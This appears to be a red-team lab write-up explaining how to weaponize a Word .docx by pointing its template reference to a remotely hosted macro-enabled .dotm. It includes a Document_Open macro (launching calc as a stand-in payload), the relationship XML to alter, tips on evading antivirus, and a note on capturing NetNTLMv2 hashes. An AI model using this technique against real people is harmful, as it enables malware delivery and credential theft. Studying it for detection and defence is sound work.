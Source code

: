 # Inject Macros from a Remote Dotm Template

This lab shows how it is possible to add a macros payload to a docx file indirectly, which has a good chance of evading some AVs/EDRs. 

This technique works in the following way:

1. A malicious macro is saved in a Word template .dotm file
2. Benign .docx file is created based on one of the default MS Word Document templates
3. Document from step 2 is saved as .docx
4. Document from step 3 is renamed to .zip
5. Document from step 4 gets unzipped
6. .\word\_rels\settings.xml.rels contains a reference to the template file. That reference gets replaced with a refernce to our malicious macro created in step 1. File can be hosted on a web server \(http\) or webdav \(smb\).
7. File gets zipped back up again and renamed to .docx
8. Done

## Weaponization

Alt+F8 to enter Dev mode where we can edit Macros, select `ThisDocument` and paste in:

{% code-tabs %}
{% code-tabs-item title="Doc3.dotm" %}
```javascript
Sub Document_Open()

Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc"

End Sub
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../../.gitbook/assets/screenshot-from-2019-03-18-22-19-22.png)

Create a benign .docx file based on one of the provided templates and save it as .docx:

![](../../../.gitbook/assets/screenshot-from-2019-03-18-22-24-02.png)

Rename legit.docx to legit.zip:

![](../../../.gitbook/assets/screenshot-from-2019-03-18-22-26-41.png)

Unzip the archive and edit `word_rels\settings.xml.rels`:

{% code-tabs %}
{% code-tabs-item title="word\_rels\\settings.xml.rels" %}
```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file:///C:\Users\mantvydas\AppData\Roaming\Microsoft\Templates\Polished%20resume,%20designed%20by%20MOO.dotx" TargetMode="External"/></Relationships>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note it has the target template specified here:

![](../../../.gitbook/assets/screenshot-from-2019-03-18-22-36-30.png)

Upload the template created previously `Doc3.dot` to an SMB server \(note that the file could be hosted on a web server also!\).

Update word\_rels\settings.xml.rels to point to Doc3.dotm:

![](../../../.gitbook/assets/screenshot-from-2019-03-18-22-59-07.png)

Zip all the files of `legit` archive and name it back to .docx - we now have a weaponized document:

![](../../../.gitbook/assets/peek-2019-03-18-23-07.gif)

{% hint style="info" %}
Note that this technique could be used to steal NetNTLMv2 hashes since the target system is connecting to the attacking system - a responder can be listening there.
{% endhint %}

## References

{% embed url="http://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html" %}



